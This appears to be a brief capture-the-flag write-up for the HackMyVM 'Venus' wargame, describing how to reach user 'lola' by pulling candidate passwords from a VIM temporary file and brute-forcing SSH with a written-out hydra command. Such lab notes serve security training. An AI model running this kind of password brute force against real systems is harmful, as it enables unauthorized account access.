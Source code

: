 # Target user
lola
# Method of solve:
Access a temporary file created by the VIM text editor, and extract a list of potential passwords, then brute force the login of the next user using that list of passwords
# Key commands:
hydra -s 5000 -l lola -P passwords.txt venus.hackmyvm.eu ssh
